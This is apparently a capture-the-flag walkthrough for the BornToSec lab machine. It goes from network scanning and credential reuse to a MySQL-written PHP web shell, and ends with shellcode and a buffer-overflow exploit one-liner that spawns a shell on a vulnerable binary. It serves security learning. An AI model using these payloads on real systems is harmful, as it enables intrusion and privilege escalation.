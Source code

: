 
### Step 1.
```bash
# List all the devices in the private network (replace by network ip address)
sudo nmap --unprivileged -sn 192.168.64.0/24
```

Once revealed, let's add ip address to the env variables.
```bash
export IP=192.168.64.6
```

<hr>

### Step 2.
```bash
# List all the opened ports for specified ip address (replace by device ip address)
sudo nmap $IP
# or even better
sudo nmap -T4 -A -v $IP
```

<details>
    <summary>Info about of opened ports</summary>

```bash
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
993/tcp open  ssl/imaps?
```

</details>

<details>
    <summary>More detailed info about of opened ports</summary>

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: SASL-IR IDLE listed have LITERAL+ capabilities ENABLE more post-login Pre-login LOGIN-REFERRALS OK LOGINDISABLEDA0001 IMAP4rev1 STARTTLS ID
|_ssl-date: 2022-10-08T19:41:46+00:00; 0s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=BornToSec
| Issuer: commonName=BornToSec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-10-08T00:19:46
| Not valid after:  2025-10-05T00:19:46
| MD5:   3f63 02ca 0bb1 e732 9987 6887 3623 86a3
|_SHA-1: eebc f8de 3422 dd63 5314 9d47 811f f6d1 8f77 c98d
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
993/tcp open  ssl/imaps?
|_ssl-date: 2022-10-08T19:41:45+00:00; 0s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

</details>

<hr>

### Step 3.

For this step we'll use dirsearch - an advanced web path brute-forcer.

See [github page](https://github.com/maurosoria/dirsearch) to know installation steps and advanced usage.


```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning https server</summary>

```bash
[10:36:23] 403 -  241B  - /cgi-bin/
[10:36:28] 301 -  249B  - /forum  ->  https://192.168.64.6/forum/
[10:36:34] 301 -  252B  - /phpmyadmin  ->  https://192.168.64.6/phpmyadmin/
[10:36:34] 200 -    2KB - /forum/
[10:36:37] 403 -  240B  - /server-status/
[10:36:37] 403 -  240B  - /server-status
[10:36:41] 200 -    2KB - /phpmyadmin/index.php
[10:36:41] 200 -    2KB - /phpmyadmin/
[10:36:42] 301 -  251B  - /webmail  ->  https://192.168.64.6/webmail/
[10:36:42] 403 -  254B  - /webmail/src/configtest.php
```

</details>


```bash
python3 dirsearch.py -e php -u http://$IP --exclude-status 400,401,404
```

<details>
    <summary>Dirsearch output from scanning http server</summary>

```
[10:30:07] 403 -  242B  - /.ht_wsr.txt
[10:30:07] 403 -  242B  - /.htaccess.sample
[10:30:07] 403 -  241B  - /.htaccess.orig
[10:30:07] 403 -  242B  - /.htaccess.bak1
[10:30:07] 403 -  240B  - /.htaccessOLD
[10:30:07] 403 -  241B  - /.htaccessOLD2
[10:30:07] 403 -  240B  - /.htaccess.save
[10:30:07] 403 -  237B  - /.htm
[10:30:07] 403 -  241B  - /.htaccessBAK
[10:30:07] 403 -  241B  - /.htaccess_sc
[10:30:07] 403 -  243B  - /.htaccess_orig
[10:30:07] 403 -  245B  - /.htpasswd_test
[10:30:07] 403 -  237B  - /.html
[10:30:07] 403 -  241B  - /.htpasswds
[10:30:07] 403 -  243B  - /.htaccess_extra
[10:30:07] 403 -  241B  - /.httr-oauth
[10:30:18] 403 -  240B  - /cgi-bin/
[10:30:21] 403 -  245B  - /doc/html/index.html
[10:30:21] 403 -  247B  - /doc/en/changes.html
[10:30:21] 403 -  243B  - /doc/stable.version
[10:30:21] 403 -  237B  - /doc/
[10:30:21] 403 -  239B  - /doc/api/
[10:30:22] 301 -  247B  - /fonts  ->  http://192.168.64.6/fonts/
[10:30:22] 403 -  239B  - /forum/
[10:30:22] 403 -  242B  - /forum/admin/
[10:30:22] 403 -  238B  - /forum
[10:30:22] 403 -  247B  - /forum/phpmyadmin/
[10:30:23] 403 -  248B  - /forum/install/install.php
[10:30:32] 403 -  240B  - /server-status/
[10:30:32] 403 -  239B  - /server-status
```

</details>

<hr>

### Step 4.
Go to the `https://$IP/forum/` <br>
Look into log file named `Probleme login ?`: 
```
Oct 5 08:45:27 BornToSecHackMe sshd[7547]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=161.202.39.38-static.reverse.softlayer.com
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```

From this output we can understand, that `lmezard` tried to connect to the server <br>
and accidentally (or not) typed password in the login field. Such a mistake!

Use this pair to login as a user on the forum, and get the mail from account page. <br>
Mail: `laurie@borntosec.net`

<hr>

### Step 5.
We use this credentials to login to another revealed service (webmail)

Go to the `https://$IP/webmail/` <br>
Login: `laurie@borntosec.net` <br>
Password: `!q\]Ej?*5K5cy*AJ` <br>

Check out the mail with `DB Access` subject and get another credentials.

<hr>

### Step 6.

Check login credentials for the DB.

Go to the `https://$IP/phpmyadmin/` <br>
Login: `root` <br>
Password: `Fg-'kKXBj87E:aJ$` <br>

<hr>

### Step 7.

The next thing we'll do is trying to open a [webshell](https://en.wikipedia.org/wiki/Web_shell)

[11:11:23] 403 -  249B  - /forum/.ht_wsr.txt
[11:11:23] 403 -  246B  - /forum/.htaccess.save
[11:11:23] 403 -  248B  - /forum/.htaccess_orig
[11:11:23] 403 -  247B  - /forum/.htaccess.bak1
[11:11:23] 403 -  247B  - /forum/.htaccess.orig
[11:11:23] 403 -  248B  - /forum/.htaccess.sample
[11:11:23] 403 -  248B  - /forum/.htaccess_extra
[11:11:23] 403 -  247B  - /forum/.htaccessBAK
[11:11:23] 403 -  247B  - /forum/.htaccess_sc
[11:11:24] 403 -  247B  - /forum/.htaccessOLD2
[11:11:24] 403 -  246B  - /forum/.htaccessOLD
[11:11:24] 403 -  242B  - /forum/.htm
[11:11:24] 403 -  242B  - /forum/.html
[11:11:24] 403 -  247B  - /forum/.httr-oauth
[11:11:24] 403 -  247B  - /forum/.htpasswds
[11:11:24] 403 -  251B  - /forum/.htpasswd_test
[11:11:41] 403 -  245B  - /forum/backup/
[11:11:41] 403 -  257B  - /forum/backup/vendor/phpunit/phpunit/phpunit
[11:11:42] 403 -  243B  - /forum/backup
[11:11:47] 403 -  244B  - /forum/config
[11:11:48] 403 -  249B  - /forum/config/config.ini
[11:11:48] 403 -  252B  - /forum/config/AppData.config
[11:11:48] 403 -  245B  - /forum/config/
[11:11:48] 403 -  250B  - /forum/config/app.php
[11:11:48] 403 -  250B  - /forum/config/apc.php
[11:11:48] 403 -  254B  - /forum/config/database.yml
[11:11:48] 403 -  253B  - /forum/config/development/
[11:11:48] 403 -  251B  - /forum/config/app.yml
[11:11:48] 403 -  256B  - /forum/config/database.yml~
[11:11:48] 403 -  251B  - /forum/config/autoload/
[11:11:48] 403 -  266B  - /forum/config/initializers/secret_token.rb
[11:11:48] 403 -  260B  - /forum/config/database.yml.sqlite3
[11:11:48] 403 -  254B  - /forum/config/databases.yml
[11:11:48] 403 -  249B  - /forum/config/db.inc
[11:11:48] 403 -  258B  - /forum/config/database.yml.pgsql
[11:11:48] 403 -  251B  - /forum/config/aws.yml
[11:11:48] 403 -  252B  - /forum/config/master.key
[11:11:48] 403 -  254B  - /forum/config/monkdonate.ini
[11:11:48] 403 -  249B  - /forum/config/config.inc
[11:11:48] 403 -  258B  - /forum/config/banned_words.txt
[11:11:48] 403 -  253B  - /forum/config/producao.ini
[11:11:48] 403 -  257B  - /forum/config/monkcheckout.ini
[11:11:48] 403 -  249B  - /forum/config/xml/
[11:11:48] 403 -  252B  - /forum/config/routes.yml
[11:11:48] 403 -  253B  - /forum/config/monkid.ini
[11:11:48] 403 -  253B  - /forum/config/settings.inc
[11:11:48] 403 -  261B  - /forum/config/settings/production.yml
[11:11:48] 403 -  256B  - /forum/config/settings.ini.cfm
[11:11:48] 403 -  253B  - /forum/config/settings.ini
[11:11:48] 403 -  258B  - /forum/config/settings.local.yml
[11:11:48] 403 -  251B  - /forum/config/site.php

```bash
python3 dirsearch.py -e php -u https://$IP --exclude-status 400,401,404
```

<details>
<summary>Scan of /forum endpoint</summary>

```bash
[11:11:54] 301 -  254B  - /forum/images  ->  https://192.168.64.6/forum/images/
[11:11:54] 200 -  474B  - /forum/images/
[11:11:54] 301 -  255B  - /forum/includes  ->  https://192.168.64.6/forum/includes/
[11:11:54] 200 -  810B  - /forum/includes/

[11:11:55] 301 -  251B  - /forum/js  ->  https://192.168.64.6/forum/js/
[11:11:56] 200 -  519B  - /forum/js/
[11:11:56] 301 -  252B  - /forum/lang  ->  https://192.168.64.6/forum/lang/
[11:12:02] 301 -  254B  - /forum/modules  ->  https://192.168.64.6/forum/modules/
[11:12:02] 200 -  518B  - /forum/modules/

[11:12:14] 301 -  257B  - /forum/templates_c  ->  https://192.168.64.6/forum/templates_c/
[11:12:14] 200 -    1KB - /forum/templates_c/

[11:12:16] 301 -  253B  - /forum/themes  ->  https://192.168.64.6/forum/themes/
[11:12:16] 200 -  449B  - /forum/themes/
[11:12:17] 301 -  253B  - /forum/update  ->  https://192.168.64.6/forum/update/
```
</details>


### Step 8.

Create webshell file using MySQL
SELECT '<?=`$_GET[x]`?>' INTO OUTFILE '/var/www/forum/templates_c/wsh.php'

ftp password
https://192.168.64.6/forum/templates_c/wsh.php?x=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"

Install ftp client if not installed
lftp -u lmezard ftp://192.168.64.6

```bash
#inside ftp
ls
get fun
get README
```

file fun -> tar arch
mv fun fun.tar
tar -xf fun.tar -> ft_fun

```bash
#!/bin/bash

OUTPUT=output_pcap
FILES_FILE=files.txt

rm -f $FILES_FILE
rm -f $OUTPUT

find $1 -type f > $FILES_FILE

while IFS= read -r file
do
    cat $file >> $OUTPUT
done < $FILES_FILE
```

chmod +x run.sh
./run.sh ft_fun
cat output_pcap | grep main

for getme1-7
find file with function prototype, open it, look at the fileX number
find file with fileX + 1, open it, get value from the return value.

After checking all the function, you end up with the following:
```c
//file8char getme1() {      return 'I';
//file88char getme2() { 	return 'h';
//file518char getme3() {    return 'e';
//file472char getme4() {    return 'a';
//file444char getme5() {    return 'r';
//file435char getme6() {    return 't';
//file503char getme7() {    return 'p';
```

Assemble the password: Iheartpwnage

SHA256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

ssh laurie@192.168.64.6

echo "Public speaking is very easy." >> instr
echo "1 2 6 24 120 720" >> instr
echo "1 b 214" >> instr
echo "9" >> instr
echo "opekmq" >> instr
echo "4 2 6 3 1 5" >> instr

cat instr | tr -d ' ' | tr -d '\n'

g   15  1111  o
i    0  0000  p   P   0
a    5  0101  u   U   e   E
n   11  1011  k   K   ;
t   13  1101  m   M
s    1  0001  q   Q   1   A

Password: Publicspeakingisveryeasy.126241207201b2149opekmq426135


user thor

[turtle printer](https://www.pythonsandbox.com/turtle)
MD5(SLASH) = 646da671ca01bb5d84dbb5fb2238dc8e

zaz -> exploit_me

decompile with ghidra

```c
bool main(int param_1,int param_2)
{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```

/bin/bash
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80

/bin/sh
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

/bin/sh
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68

./exploit_me $(python -c 'print "\x90" * 75 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x90" * 32 + "\x68\xf6\xff\xbf"')